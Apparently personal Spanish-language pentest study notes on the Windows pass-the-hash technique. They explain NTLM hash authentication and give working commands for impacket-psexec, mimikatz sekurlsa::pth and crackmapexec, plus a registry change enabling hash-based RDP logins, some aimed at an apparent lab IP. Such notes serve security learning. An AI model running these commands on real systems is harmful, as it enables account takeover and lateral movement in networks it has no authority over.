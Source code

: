 # Pass the hash

#### [Pass the ticket](./passTheTicket.md)
#### [Pass the ticket LINUX](./passTheTicketLinux.md)
- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`

## Permitir Pth con RDP
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- ![](https://academy.hackthebox.com/storage/modules/147/rdp_session-5.png)
- Una vez de que la llave fue agregada al registro del sistema podemos intntar usar xfreerdp con la opción /pth